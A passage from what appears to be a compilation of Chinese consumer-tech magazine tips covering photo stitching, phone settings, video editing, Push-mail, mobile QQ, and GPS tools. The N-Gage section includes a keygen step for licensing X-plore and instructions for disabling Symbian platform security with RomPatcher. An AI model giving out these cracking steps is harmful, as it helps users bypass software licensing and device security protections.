### 其次，各个区域进行拼接，确保照片衔接平滑自然

- 1. 第一步：打开Photoshop 8.0，新建一张画布尺寸为单张照片4倍大小的图像。将拍摄到的4张图片分别导入到图像中。为了方便叙述，我们将图层分别命名为“左上”、“左下”、“右上”、“右下”。
- 2. 第二步：隐藏下方的“左下”和“右下”两张图片，将图层“右上”的透明度改为70%，以便观察和拖拽两张图片，使“左上”和“右上”准确衔接（见图1）。调整透明度是为了方便我们观察两张图像的衔接位置。
- 3. 第三步：按键盘上的Ctrl+T键，对图层“右上”进行变形，让两张图片以桥为主体进行“接轨”。在变形中按Ctrl键可以对控制点进行单独控制变形。
- 4. 第四步：将图层透明度恢复到100%后，单击图层蒙版按钮，建立图层蒙版。选择适当大小的柔边画笔，将笔刷颜色设置为黑色，透明度设置为50%左右，在图层“右上”蒙版上涂抹，使两边的桥顺利“接轨”。使用柔边画笔绘制蒙版是为了让两张图片结合处平滑、自然。
- 5. 第五步：由于两次拍摄时光线不同难免造成图片颜色不一致，选择菜单栏“图像→调整→色彩平衡”命令，进行色彩微调，使其色彩一致（见图2）。
- 6. 第六步：用上述同样的方法拼接出其余的图层。与单张拍摄的效果相比，拼接而成的照片的像素几乎提高了4倍，细节的表现力自然更强。同样一个局部，单张拍摄的画质显得比较模糊，细节丢失严重，而拼接那张的画质就要清晰得多。





用户名:空

密码:空

#### GPRS设定：

| 序号 | 项目 | 设定值 |
| :--- | :--- | :--- |
| 1 | 进入浏览器→代理服务器设定→设定 | |
| 2 | 模式名 | 中国移动 |
| 3 | 主页URL | http://wap.monternet.com |
| 4 | 传送方式 | 仅GPRS |
| 5 | 代理服务器 | 有效 |
| 6 | GPRS设定按OK进入 | |
| 7 | 代理服务器 | 10.0.0.172 |
| 8 | 代理服务器端口 | 80 |
| 9 | 接入点名称 | cmwap（小写） |

#### WIFI设定：

- 1. 第一步：在通讯管理员中，进入“WIFI网络设定”中，点“功能表”，选择“网络卡”。点“添加新的”加入一个新的WIFI连接，“网络名称”填SSID的名字，“网络密钥”中选择“数据加密”为WEP，将“自动提供密钥”的钩去掉，填入正确的网络密钥。勾掉802.1x中的“使用IEEE 802.1x网络访问控制”上的钩。点“OK”确认。
- 2. 第二步：在“网络适配器”中选中SDIO WLAN Wireless Adapter，设置相关的IP地址、网关等，软启动手机。在通讯管理员中开启WIFI连接，确认是否可以连入无线网络。

> 补充：在添加新的WIFI连接时，要注意下面的“连接到”，选择的要与IE连接（设置→连接→高级→选择网络）一致。

## 快门也有很大问题

照片的好坏与曝光量有关，而曝光量是由光线通过镜头的时间（即快门速度）和镜头开启通光的面积（即光圈大小）决定的，因此选择正确的光圈和快门的组合是摄影的基本功。快门优先是指在用户自己选择好快门时间的基础上，由相机根据测光信息、CCD感光度等情况自动确定正确曝光时所需的光圈值。由于快门优先可以自己选定快门速度，因此适合于一些对拍摄速度有特殊要求的曝光场合。

### 快门优先的设置

通常可直接将DC的功能拨盘转到“S（快门优先模式）”处，相机就设定为快门优先曝光模式了（见图）。有的相机的标识字符是Tv，比如佳能。选定快门优先模式后，LCD上就会显示出快门、光圈的数值，通过四向控制键的上下箭头按钮就可以选择一个合适的快门速度，而光圈值就由相机自动给出。



### 快门优先功能的应用

高速快门可以在照片上“冻结”快速运动的物体，适合于体育、动物、鸟类等情况的拍摄。比如拍摄行进中的路人，要想人物动作清晰，快门速度最好设置在1/250秒左右，拍摄足球运动员凌空抽射的镜头，可以用1/500秒甚至更快的快门速度来“抓住”他出脚的瞬间。而天空中的飞鸟则需要设置1/800秒以上的快门速度。

> > **友情提示**：在白天使用慢速快门时，由于光线太强，有时光圈缩小到最小也无法得到正确的曝光，相机会出现红色报警，提示速度太低，这时如果要继续使用慢速快门，首先应将ISO感光度调到最低，然后在镜头前加装一个ND滤光镜，以减少进光量。

不同的快门速度可以实现不同的摄影效果，最明显的例子就是水景的拍摄。在拍摄瀑布时，如果要想表达喷珠溅玉般的效果，可以使用1/1000秒的高速快门，来体现瀑布流水的力度，将飞溅出的水珠“冻结”成颗颗珍珠，凝固在画面上。而要想得到一张行云流水般的瀑布照片，就要选择1/2秒以上的慢速快门。慢速快门使得水流的运动轨迹交织在一起，形成如纱如雾般的丝绸状梦幻效果。当使用慢速快门时一定要使用三角架，以避免DC抖动造成照片模糊。

## 手机电影特效123

文/王林赞

第3期的《像搭积木一样编导手机电影》中特效介绍得不多，这里笔者补充几个自己制作时常用的特效。

### 绚丽的片名

Ulead COOL 3D是配合会声会影使用的一款制作酷酷立体字的软件。打开它，在左边的工具栏中点击“插入文字”，输入片名并调整好字体、大小等。在下面的文字编辑区，选择“工作室”，有很多现成的模板，只要改改文字就行；“对象样式”是为片名文字打造光泽和立体感的地方；再往下的“文字特效”就能为文字加上各种好看的动画效果了。不管是文字样式还是文字特效，双击就能添加了，选择时可以点击上方的播放按钮预览。大功告成后依次点击菜单栏中的“文件”、“导出到Macromedia Flash”、“用Bitmap…”，保存为Flash文件。

打开会声会影12，先点击最上方的“编辑”，然后点击“视频”旁的打开图标，打开需要编辑的视频以及刚刚制作的特效文字。从缩略图中分别拖到下方工作区域的“视频轨”和“覆盖轨”中，对齐后右击Flash文件，选择“回放速度”来调整播放速度。播放时系统默认文字直接闪现，为了有更好的效果，点击覆盖轨中的Flash文件，会在上方编辑栏中出现“方向/样式”，在“进入”、“退出”中调整特效文字的进出方向。

好了，播放一下试试，效果不错啊。如果再用视频滤镜将背景模糊，那感觉就绝了。注意，会声会影的所有素材都需要按住鼠标左键不放拖拽到轨道中，双击只能进行预览。

### 神奇的消失

《西游记》中神通广大的孙悟空可以瞬间消失，有没有幻想过和他一样强大呢。原理很简单，一段有人物的视频或图片和一段无人物但是背景一样的视频或图片，利用转场特效“交叉淡化”就能实现。

如果拍摄时已经刻意去拍了一段无人物同背景的视频，那最好。要是没有的话，就只能将需要消失的那个POSE截图，用Photoshop除去人物，保存为一张图片。

将有人物的“1号视频”插入“视频轨”。在上方“视频”旁下拉式菜单中选择“图像”，打开处理过的图片，拖到视频轨中“1号视频”后。切记，不管用视频还是图片，只能插入到视频轨，而不能是覆盖轨。再次点击下拉式菜单，选择“转场”、“过滤”，将“交叉淡化”拖到视频中，拖动边缘调整播放速度即可。

### 再来一招

大片中经常会看到“XXX作品”，其实方法更简单，选一段Flash作为背景插入到“视频轨”中，点击最上方的“标题”，拖一个带动画并修改好文字的标题插入“标题轨”。如果背景选得好，感觉就真实多了。别忘了保存整个项目，修改起来会方便很多。

最后提示一点：视频带给大家的就是视觉冲击，选择好的字体就很重要。去找一些漂亮的字体吧，宋体、楷体太没个性了。

## 一步一步学会在影片上添加太阳光晕

在电影和电视上，当出现丰收的麦田、绚丽的舞台时，景物的镜头前往往会出现太阳光晕效果，给人亲近自然之感，视频画面洋溢着和谐之美。其实我们在自家拍摄的DV视频上也可轻易实现这一美妙效果，只需利用会声会影给视频添加一个太阳光晕效果即可搞定。

### 捕获并导入DV素材

运行会声会影11，将选项卡切换至“捕获”项，将捕获格式设置为“DV格式”（即默认的AVI格式），并设置好保存路径，勾选“依场景分割”选项，单击“捕获视频”按钮即可轻松将不同的场景片段捕获到PC端。

> 小提示：如何设置白平衡？
拍摄视频前，最好找张白纸作为样张来自定义设置白平衡，懒人们也可直接开成“自动”。拍摄室外场面时，如果自然光线较好，将快门速度设置为大于“1/500”；室内拍摄或室外自然光线较暗时，将快门速度设置为“1/50”，解决暗光线下画面较暗的问题。

### 添加眩光滤镜并输出

拖拽DV素材至视频轨内，选中滤镜列表中的“镜头眩光（Lensflare）”滤镜并拖拽至视频轨内的DV视频上，单击“镜头眩光滤镜”样式下拉列表，选中界面右下角的那个样式，这时就可从预览窗口看到添加滤镜后的眩光效果了（见图1）。
添加滤镜后，笔者发现默认的参数和眩光位置将画面中的人物遮挡住了，需要通过调整滤镜参数及“自定义滤镜”中的十字指针位置来改变画面效果，此例中可拖拽十字指针从原视频左下方至右下方作为眩光运行轨迹，指针出现的位置就是眩光的位置。将十字指针拖拽至左下方距离下边框约0.5mm左右位置，“镜头类型”选“35mm主要”，“亮度”设为“90”，“大小”设为“80”，“额外强度”设为“350”，取消“固定”前的复选框，光线颜色保持默认值。

将进度条拖拽至1分12秒，将原视频中的十字指针拖拽至显示窗口中间距离下边框0.5mm的位置，单击工具栏上的“添加”按钮，当看到进度条处出现红色的菱形标志，这说明关键帧已添加成功，这时再设置相关参数值（见图2）。



接着将进度栏拖拽至最右端，将原视频中的十字指针拖拽至右下方距离右边框和下边框各0.5mm左右位置，参数保持和图2一致。这时就可以在播放窗口预览效果了，如果觉得不满意，可再次调整“自定义滤镜”参数。接下来就可以渲染输出作品了，笔者试用，效果还不错，感兴趣的读者不妨试试。



## 教你如何给手机贴膜

### 前期准备

**第一步：** 先取出拭镜布，轻轻擦拭屏幕，务必清洁屏幕（镜头）上留下的灰尘、油污。
注意：屏幕未彻底清洁，可能会导致安装时产生气泡。

- **第二步：** 撕开蓝色除尘膜，缓缓贴于屏幕（镜头）上吸附，接着来回抚平，一直到完全贴服屏幕各处后，再将除尘膜撕起，即可彻底清除屏幕上不易察觉的毛屑与灰尘（见图1）。
提示：除尘膜用完后，记得贴回原底纸，如此可再清洁其它镜面。
警告：一旦除尘膜吸附面沾染过多灰尘、毛屑时，既丧失其除尘功能，切勿再拿来吸附清洁镜面（避免越吸越脏）。



### 进行安装

安装前，请务必先取出屏幕保护贴，仔细比对手机上的液晶屏幕，待贴膜方向确认无误后，进行下述安装步骤。

- **第一步：** 将需要保护的屏幕上指纹、污迹、灰尘去除。
- **第二步：** 将产品上1号层面拉下部分。
- **第三步：** 把贴膜的静电吸附层面对准屏幕的边角确保贴膜的位置整齐后即可将贴膜1号层面完整撕下完成贴附（见图2）。
- **第四步：** 贴膜吸附后即可把贴膜的2号层面拉下。
- **第五步：** 带有附件护贴直接撕下贴附即可。
注意：较小的附件护贴可拉下底层直接安装。



## DV自制视频也可以多声道

如今，很多家庭用户都喜欢用DV拍摄有声有色的生活短片。短片后期制作的时候，除了想保留作品原始的声音外，还想添加一些优美的背景音乐。但是声音添加后，却发现几种声音糅杂在一起，不但没办法听到原始拍摄的声音，背景音乐在里面却起到了反面作用。其实，我们可以采用以下几种方法让各种声音和睦相处。这里以用会声会影11处理为例。

### 懒人调整法：整段声音设置法

如果拍摄的作品背景音不是十分复杂，可以采用整段调整音量的方法来平衡背景音乐和添加的素材音乐。

第一步：启动会声会影11，鼠标右键单击视频轨空白处，导入拍摄的视频作品，用同样的办法在音乐轨中添加音乐素材。

第二步：选择轨道上的视频或音频，在画廊下，我们可以看到有一项“素材音量”调整框，在其中输入合适的音量数值，这样，整段视频或者音频的音量都将被调整好。

第三步：单击调整框右侧的淡入/淡出图标按钮，使音量开始和结束的时候的过渡效果更加自然。默认情况下，淡入、淡出效果的持续时间为1秒。为使过渡效果更自然，需要延长持续时间，依次单击“文件→参数设定”，在弹出的对话框中，单击“编辑”选项卡，在其下找到“默认音频淡入/淡出时间长度”项，将其数值调整为2（见图1）。



### 细致调整音量法：应用音量调节线

上面的方法虽然简单，但只能对整段素材进行调整，要单独细致地调整素材某一部分的音量，还需要应用音量调节线进行调整。

第一步：单击轨道上的视频或音频，然后单击播放功能按钮下方的类似扬声器形状的“查看音频”图标按钮，这时会看到轨道上的视频或者音频以红色直线出现在眼前。

第二步：将鼠标移至红线上，当鼠标变成向上箭头时，单击鼠标左键，添加一个关键帧。

第三步：按住鼠标左键上下拖拽关键帧来调整音量，可以采用边设置关键帧边播放的方式进行细致调整，在不同的场景和环境下可以设置多个关键帧来达到调整的目的（见图2）。其他轨道上的音频素材调整类同。



### 高级进阶：打造音量的动态混音

我们要编辑出一个好的DV作品，可能要在轨道上添加多个音频素材，要使各个轨道上的声音相互协调，完美衔接，用音量调节线就显得有些繁琐了。其实，在会声会影11中提供了动态混音功能，可以让DV作品上的所有声音“和睦相处”。

第一步：单击播放窗口下方的“查看音频”图标按钮，接下来单击画廊下方的“环绕音效混音器”标签，这时，在画廊下方就会出现混音面板了（见图3）。

第二步：首先对视频素材进行混音，单击混音面板上的视频轨图标按钮，选择调节视频轨的声音，然后单击播放按钮开始播放视频，播放过程中根据图像需要上下拖拽“立体声”音量调节滑块，调整素材音量进行混音。

第三步：接下来将对覆盖轨上的声音素材进行混音（如果覆盖轨没有素材文件，顺延调整下一个轨道上的声音），单击覆盖轨图标按钮，选择调节该轨道上的声音，单击播放按钮，根据实际情况拖拽音量调节滑块，进行混音。按照上述步骤，将其他轨道上的声音进行相同混音设置。



## 设置手机开机画面和透明网络标志

几乎每天都有人问到如何能够更改手机开机画面和设置透明网络标志，尽管一定会有高手耐心的讲解，不过对于从来没有接触过的朋友，仅依靠简单描述可能还是无法让其彻底明白应该怎么作。我们以普通的一款诺基亚3100手机来给大家讲解一下这个问题。这里我们需要的硬件就是手机和配套的数据线，而软件就是MobiMB Mobile Media Browser。

### 设置开机画面：

- 第一步：要用数据线将手机与电脑相连，然后打开MobiMB Mobile Media Browser软件。
- 第二步：在软件中选择并打开诺基亚3100。
- 第三步：这时我们可以看到有多媒体资料（Gallery）、百宝箱（Applications）、游戏（Games）这三个文件夹。我们选择多媒体资料，然后打开图像就会看到手机里面的待机图画了，如果没有要选择的图片，窗口左下方有图片的显示，这样更方便。
- 第四步：选择要作为开机画面的图片，把鼠标移到Use as。
- 第五步：选Startup Logo的选项，这样开机画面就设置成功了（见图）。

### 设置透明网络标志：

设置自己做的透明网络标志，与设置开机画面大部分相同，就是在Use as的选项里，应该选Operator Logo，这样网标就设置好了，网标不一定非的要透明的，只要自己喜欢，待机的图片也可以作为网络图标。



## 使用X-Plore管理器隐藏图片

Nokia的多媒体一打开就会自动搜索整个手机和内存卡里的图片，发现有新的它就会更新。这个有利有弊，弊端就是有一些照片我们根本不想它出现在多媒体里。那就把它们隐藏起来吧。

- 第一步：下载X-Plore并开启。
- 第二步：按0，选中“显示隐藏文件”，选中一个文件夹作为隐藏对象，例如一个叫“隐私”的文件夹，移动光标到这个文件夹。按6，勾选“隐藏”，点击左软键“更改”（见图）。
- 第三步：进入这个文件夹。如果看到里面有一个_PAlbTN的文件夹，就把它删掉；这个是图片的缩略图文件，就是在多媒体里预览的。
- 第四步：打开多媒体，你就发现它更新一下就看不到那个“隐私”文件夹里面的图片了。如果再不行的话，就把“隐私”里面的所有图片都设为隐藏。
记住，看到_PAlbTN文件夹一定要删，这个是隐藏的关键。这样有隐私图片的手机就能光明正大地借给别人啦。



## 删除手机自带JAVA等软件

如果用蓝牙和手机连接，不用套件也可以，如果没有蓝牙适配器，用数据线连接，那就要用到套件。

- 第一步：安装套件及MobiMB Mobile Media Browser。
- 第二步：连接后点开“A:”，进入JAVA文件夹，那两个文件夹就是手机本身自带的JAVA如QQ和维信还有空中浏览器等等，还有一些游戏，分两个文件夹。右键点击要删除的文件点Delete。
- 第三步：安装凤凰2008并开启。
- 第四步：在我的电脑里通过右键点击凤凰图标Active connection –usb（要选USB），这时手机会自动关机，双击我的电脑里的，点击C盘进入自带内存的文件系统。
- 第五步：在C盘主目录“predefjava-Predefcollections”里，这里有手机上自带的JAVA和那个手写教程，找到手写教程，右键并点击Delete。有时候删除会出现错误提示。点OK即可，然后重复删除。
- 第六步：删除文件后，从页面上退出，在我的电脑的凤凰图标点击右键，选择Disconnect断开连接。



## N-Gage不用买 Nokia N73免费变

N81、N95、N79等一批支持N-Gage移动游戏模式的塞班机型的风靡，《3D贪吃蛇》、《豪华打砖块》等一批操作简单又不失华丽的N-Gage游戏，给大家带来了全新的视觉体验。难道性价比超高的N73真的已经过时？小3难道就不能玩N-Gage？N73的机友们，让我们一起说“NO”吧！

### 注册X-plore并安装根证书

在PC端下载并解压缩“N-Gage.rar”，下载地址：http://www.cbifamily.com/download/200913.html。首先将“1.X-plore.sis”、“2.HelloCarbide.sisx”和“opda_root_cer.dat”拷贝到内存卡install文件夹中。接着依次打开“菜单→工具→文件管理”，依次安装1~2。

然后打开“菜单→应用软件”打开X-plore，软件需要注册。在PC端双击打开XploreKeygen.exe，输入手机端注册界面显示的IMEI串号，单击Generate，将算出的5位序列号输入即可成功注册（见图1）。



这时按数字键0进入设置界面，勾选“显示系统文件/文件夹”并返回目录。再按下菜单键（不关闭X-plore），打开“应用软件→HelloCarbide”，点击“选项→Menu1”，选“Yes”保存退出。而后长按手机菜单键，切回X-plore界面，进入E盘Install目录，选“opda_root_cer.dat”按数字键1，用导航键将光标移动到“C:”按右键展开；接着移动到RESOURCE目录，按数字键9创建新目录swicertstore和dat，再按下中间键复制（见图2），接着按数字键6为其加上只读属性，最后重启机器。



### 安装N-Gage游戏平台

在PC端把“3.N-Gage PreInstall.sisx”、“4.NGageInstaller.sisx”、“5.Patch.sisx”、“6.RomPatcher.sisx”和“20001079.txt”拷贝到内存卡的install文件夹中。接着依次打开“菜单→工具→文件管理”，选择内存卡的install文件夹，依次安装3~6。

然后依次打开“菜单→应用软件→RomPatcher”，按下左软键选“关闭权限”（见图3）。



### 设置N-Gage平台并试玩游戏

将“豪华打砖块.n-gage”和“3D贪食蛇.n-gage”拷贝到内存卡的N-gage目录里。直接运行N-gage平台，它会自动检测新游戏并安装。值得注意的是，游戏一定要安装在内存卡上（N73本身内存仅为42MB），且游戏运行中不能使用自定义输入法，否则会自动退出游戏。搞定后直接在平台里选中相关游戏图标，即可运行和试玩游戏。如果您开启了GPRS包月服务，还可通过NOKIA官方战网对战并保存战绩，如果是第一次使用N-Gage application，您需要创建一个玩家名字和密码，注册确认的邮件会发送到注册时的邮箱里，确认即可完成注册。

然后按菜单键，在应用软件里打开X-plore，依次选中“E:”→install→20001079.txt，按数字键1。接着用导航键依次打开“C:”→private→10202be9，按中间键复制，如果有覆盖提示选“覆盖”（见图4）。而后长按菜单键，切换回RomPatcher，按下左软键选择“开启权限”。最后将X-plore、HelloCarbide和RomPatcher删除掉，这样就完成了N-Gage平台的安装工作。



## KMPlayer也能打造视频缩略图

文/狮子王

电爱2008年第22期72页《拒绝简单1+1 图片合并逆天技》一文中介绍了“Image Grabber II”，使用该软件就能制作类似的视频截图效果，非常棒！可是，在一次使用KMPlayer的过程中，却找到了更便捷、更高效的方法：

第一步：使用KMPlayer播放要制作视频缩略图的电影，然后用鼠标右键单击其主界面后依次进入“捕获→创建情节串连图板”。

第二步：在“文件名”中指定捕捉缩略图文件后存放的位置，选中“大小”后在“图像宽度”里输入“800”，这样生成的整个缩略图分辨率在800X600左右，既能保证其中视频画面截图的质量，也能控制缩略图的大小，以便于上传到论坛。最后，在“格式”里选中“JPEG（中等）”，点击“确定”按钮就能自动生成视频缩略图了。

小提示 默认生成四行四列的截图画面，如果想自定义，只要修改“列”、“行”里面的数值即可。

## 不管国内国外 轻松实现Push-mail

Push-Mail简而言之，就是你的电子信箱收到一封邮件后，会主动地直接显示在手机端的相关程序上，而不用手机电子邮件客户端去手动地收取或者设置为每隔几分钟检查一次新邮件，那些都不叫Push-mail。

### 方案1: 付费并且稳定的139邮箱

现在“非黑莓”智能手机的Push-mail的实现方法一般都是借助于Microsoft的Exchange ActiveSync。弊端是没有公司自己服务器的支持，只能选择第三方，其代表网站是mail2web，但是这个国外网站的免费push速度一般，还经常收不到邮件或者给Gmail退信。车到山前必有路，中国移动难得做了一次好事，推出了一款Push-mail解决方案——139邮箱，并且不需要我们随时保持GPRS连接，比较省钱，现在支持大部分机型。

**第一步：** 在www.139.com注册，然后“发送短信KTYX5到10086开通5元邮箱”，这样你的手机邮箱才支持Push-mail功能。每月两瓶可乐的价格想必商务人士还是能接受的。

**第二步：** 申请结束后，在PC上登录www.139.com，点击Push-mail选项卡（见图1），打开Push-mail。然后按照需要选择获取客户端的方法，如果我们不是WinCE（这里应该是指Windows Mobile）智能手机，就选择WAP-Push方式获得客户端，手机上会收到一条WAP-Push信息，打开后就能下载大约200KB的sis格式“139信箱”客户端，安装并打开客户端，你就会收到配置信息并开始使用了。



**第三步：** 新申请的yourname@139.com或者是13xxxxxxx@139.com信箱自然没人知道，我们所要做的是把自己的主力信箱设置自动转发到自己的139信箱。我就以自己的Gmail为例吧。打开Gmail并登录，点击右上角的设置，然后选择“转发和POP/IMAP”，然后在“转发”菜单里把“所接收邮件的副本转发至”后面填入新申请的yourname@139.com或者是13xxxxxxx@139.com信箱（见图2），至于Gmail是否保留备份就看个人爱好了，建议是保存一份。



### 方案2: 免费但花费流量的尚邮

**第一步：** 注册尚邮账号，并下载尚邮客户端（注册下载地址：http://www.shangmail.com/）。

**第二步：** 在手机端运行尚邮账户并登录（见图3）进入“选项→设置→账户设置”，并添加邮箱账号。目前尚邮支持5个邮箱账号的绑定，基本上可以满足工作和生活的需要了，新建邮箱账号时需要填写邮箱配置信息，如果添加的是163、yahoo、sina等公众邮箱，尚邮会自动配置邮箱信息，只用输入邮箱前缀和密码就可以了。



**第三步：** 等待1分钟左右，便可登录成功，在尚邮的主界面中，能够看到收件箱、我的文件夹、草稿箱、发件箱、已发送和垃圾箱这几个文件夹，类似于Outlook的形式。在收到新邮件时，尚邮会跳出提示，如果您在隐藏尚邮的状态，在手机的右上角会出现小信封。如果收到带附件的邮件，您只需要选择“查看附件”就能够看到附件列表并进行下载。

**第四步：** 连接WIFI，只需在“高级管理”中的“系统设置”将设置接入点选择为Easy WLAN就能让尚邮走WIFI网络而不耗费GPRS流量了（见图4）。



> ### 小提示
> 这里说明一点，尚邮必须使用CMNET，没有CMNET功能的SIM卡是无法使用的，同样链接网络的时候也不能选取移动彩信或者移动彩信的通道。总体来说，尚邮还是不错的。但是不建议没有GPRS包月的用户使用（CMNET的包月，部分包月卡只含CMWAP的包月）。

## Python入驻N78  疯狂QQ聊不停

用手机上QQ已经成为众多塞班机友茶余饭后的必备课题，但S60自带的Q聊版本，有诸多限制，譬如一次只能登录一个QQ账号（不支持一机多开）、与好友的聊天记录保存麻烦且无法导出等。S60不是号称是扩展性很强的智能系统，居然还会出现如此尴尬之境，有没有什么简便易用的方式可以解决这一S60系统上的QQ魔咒呢？

### 第一步：签名SIS包并搭建Python平台

我们“玩手机QQ”是利用Python平台实现的。所以首先需要安装Python平台。在PC端下载并解压缩Python.rar后，使用个人证书对Python平台插件gapymodulepack.sis签名；接着将该SIS包和Python for s60.sis复制到内存卡根目录下的install文件夹中；然后依次选“应用程序→程序管理→安装文件”，按照先插件后平台的顺序依次安装到E盘（见图1）。



> **小贴士**
> 如何保证SIS包的安全性? 由于需要用到QQ账号及密码信息，所以在使用Python平台及Python软件前，我们要保证SIS包无任何流氓绑定信息。建议大家在Python官方网站或专业论坛下载相关软件包。下载完的软件可上传到http://www.mo110.com/检测。对于检测后标出的未知项中含有httpmessage.exe、linkhttp.exe等关键字的EXE包，或与安装软件不符合的字符串，建议大家不要安装。

### 第二步：安装并配置“疯狂QQ”

平台架设完毕，现在就来搞搞“上层建筑”。首先使用证书对“疯狂QQ.SIS”签名，再复制到内存卡上安装；然后在“应用程序”中选中进入，这时会要求您选择接入点，选wap over gprs；接着依次进入“选项→设置”，将“联网间隔”修改为“200”，可有效降低流量损耗；将总时间修改为2小时，这样就可挂够活跃天数。如果需要定时启动挂机，直接将“定时挂Q”选为“是”，并在时间栏中填入启动时间，建议大家选网络较好的时段（夜晚较好），最后选“储存”退出即可（见图2）。



### 第三步：测试“疯狂QQ”可挂QQ数

“疯狂QQ”到底有多疯狂，我们一起来见证。首先依次点击“选项→新建账号”，输入需要登录的QQ号码、密码及留言，完成后保存退出（见图3）；再点击“选项”选“开始挂Q”，当挂满2小时后会自动退出。该版本采用后台登录QQ网页版的方式实现挂机，经笔者的N78实测，在机器不卡的情况下，可同时登录5个QQ。不过多个QQ在线会消耗更多流量，建议办理GPRS包月。



### 第四步：用“Q聊管家”备份聊天记录

挂多个QQ，会产生很多聊天记录，甚至会包含一些重要讯息。这时就可通过“Q聊管家”备份和导出聊天记录的方式来查看。首先在PC端使用证书对“Q聊管家”签名，完成后复制到内存卡中安装；然后启动该软件，点击“选项→导出记录”，软件会列出所有使用手机QQ方式登录过的QQ号，选中需要备份的点击“确认”。这时软件会列出该账号上有聊天记录的联系人QQ号，选中需要的点击“确认”选择存放备份的文件夹，再点击“选项→选择当前目录”开始备份记录，会产生一个“*MSG.txt”的文本文件，可在PC端和手机端随时查看。

> **小知识**
> Python语言和Python平台是什么东东？ Python语言是塞班S60智能手机平台的扩展开发语言。Python平台，又被称为“蟒蛇平台”，相当于Python的启动（驱动）机。需要注意的是，Python只是一个软件运行的平台，Python及其应用软件一定要安装在“手机内存”下，否则无法正常调用。目前最新版本为纯E盘版本，只需签名即可安装成功。

Alpha http://alphaonee.blog.cfan.com.cn
cf hdq@cfan.com.cn


## 利用自带照相机识别名片

名片，是商务活动中所不可或缺的东西。参加会议、朋友聚会，你都会收到不少名片，而将这些名片上的资料变成手机中的联系人，却是一件很费时间的事情，所以带有名片识别的手机现在是不少商务人士的首选。

其实名片识别在Windows Mobile系统机上是一个很普通的功能，一个软件就可以实现，今天给大家介绍的这款名片全能王就是一款基于Windows Mobile手机的名片识别软件，它能利用手机自带摄像头拍摄名片图像，然后自动识别名片内容，并将内容自动归类，按照手机标准联系人格式存入电话本。

### 开机界面

打开程序，可以看到中间两个图标，左边图标是进入相机拍摄图片，右边的则是从文件夹中提取照片。界面最下方分别是四个图标(从左至右)分别是软件信息、操作帮助、识别设置以及关闭程序四个功能 (见图1)。



### 照片的获取

名片全能王的照片获取有两个途径：

- (1) 拍照方式：即点击上图中的“相机”图标——拍照，会自动打开手机的摄像头，拍照之后就可以进行其他操作。
- (2) 从手机存储文件夹中获取：即点击上图中的“文件夹”图标——浏览，程序会转入资源管理器。用户可以在列表中点开文件夹，勾选相应的JPG图片。

读取图片后，可以通过点击放大镜图标对图片进行放大缩小。如果需要浏览其他图片，点击左右方向的图标就可以进行切换。

### 名片的拍照存储步骤

- 点击主界面中的“相机”图标——拍照，会自动打开手机的摄像头。
- 拍照之后获得下图照片（应保证名片拍摄的完整），点击左侧按钮，读取照片。
- 拍照之后名片以照片的形式供用户查看，这时用户可以对其放大、缩小，以查看所拍内容是否清晰无误。如果对拍摄图像不满意，可以重新进入拍摄预览界面拍摄（见图2）。如果满意，则点击左下角的“识别”。
- 编辑采集到的信息：在下图中，对获取的名片信息进行修改（毕竟软件不是人，只是机械的读取，有些信息的处理难免有误）。
- 检查无误后，点击下面的“保存”按钮，进行保存（保存过程中需要你确认：是或否）。



之后，你就可以在联系人中找到刚刚添加的联系人了。

### 设置

在软件设置界面上有两个选项：一是“启用名片智能检测”（见图3），如果选中它，进入名片拍摄界面时就会启用名片智能检测功能，能自动判断名片位置、图像质量，能自动完成图像拍摄，从而减少由于手动拍摄时抖动而降低图像质量的情形，进而提高识别的准确度。另一个选项是“名片拍摄后立即识别”，用户选中了这个选项后，那么名片图像拍摄完成后不会进入“名片预览”界面，而是会立即识别拍摄的图像，直接显示识别结果。



### 修改注册表使spb mobile shell支持中文城市名称

spb mobile shell 3.0发布以来，其优秀的界面，绚丽的3D显示，吸引了很多玩桌面的WM玩家，独立背景壁纸更换设置，更是为大家选择自己喜欢的图片提供了便捷，但是SBP的城市天气预报显示城市是英文的，现在，我们就利用WM的强大工具注册表，来修改城市的名字，让它显示个性城市名字。

- 第一步：打开注册表编辑器，
- 第二步：进入[HKEY_LOCAL_MACHINE\SOFTWARE\Spb software house 2\Spb Mobile shell\Weather]（见图）。
- 第三步：在下方找到Name把键值改成对应所在城市的中文名称，例如Shanghai改为上海。
- 第四步：关闭Spb mobile shell并重新开启，就可以显示中文城市名字了。



好了，照此设置，你就会很快显示你的个性城市中文名字。

### 用GPSView查询GPS工作状态

常常有朋友为手中的GPS不能正常使用而发愁。不管是使用内置GPS的手机方案还是采用外置蓝牙模块+手机的方案，您都可能会遇到种种问题，不能正常导航。到底问题出在哪呢？GPS芯片坏了？软件安装问题还是手机本身的问题？不借助工具的情况下往往很难判断。

GPSView就是帮助您判断这些问题的工具软件，别看软件小巧但非常实用。其实GPSView就是一款简易的GPS测试软件，它可以自动通过变化连接参数对可用的GPS进行搜索，在没有其他导航软件的情况下，可以用它来判断GPS硬件是否正常，并且控制GPS进行冷启动、热启动和温启动。这款软件界面非常简洁，使用起来也比较简单，下面我们就来做一个使用说明，采用的GPSView版本是for PPC的1.5版。

软件由两个选项卡组成，setup是设置界面，在此界面下可以设置GPS的端口和接口速率，并能进行冷启动、热启动和温启动（见图1）。GPS Status是状态显示界面。



在Com Port中选择端口号，Baudrate中选择速率，速率一般选择4800即可。如果您不清楚所使用的GPS所采用的端口，可以点Scan按钮进行扫描，下面就是扫描后的结果，可以看到软件在COM6端口上发现了GPS。点OK后回到Setup界面，这时候端口号已经自动设置好了。如果软件没有扫描到GPS，那就要检查一下了，例如GPS电源是否开启，蓝牙配对是否成功等。

再解释一下此选项页上的其他几个按钮和选项，Hot Start、Cold Start、Warm Start分别是执行热启动、冷启动和温启动操作。选中WAAS/EGNOS可以增加GPS的定位精度，但是这个功能目前在国内还无法使用，增强信号仅覆盖北美及欧洲一些国家，所以即使选中也没有用的。

点击Open GPS打开GPS，GPS开始寻找卫星信号，下面有相应的数据指令不断滚动，此时证明GPS与手机间通信正常（见图2）。



打开GPS Status看一下状态，下图第一张图显示的是GPS刚开始搜索卫星信号时的状态，上面显示了卫星的位置和编号，红色代表还没有成功连接的卫星，此时右侧的时间和日期可能会显示不准确。等待一会，当GPS成功连接到三颗以上卫星的时候，成功连接的卫星将用蓝色表示，同时在下面有柱状图表示相应卫星的信号强度，这时候时间和日期将能够正常显示（见图3）。这里需要说明的是，也许是该版本的GPSView还不太完善的原因，在GPS成功连接到三颗以上卫星的时候，状态界面会停止刷新，你只有在setup和GPS Status间不断切换才能看到GPS状态的变化，希望作者能够在后续版本中改正。



### 表：状态显示中数据的意思

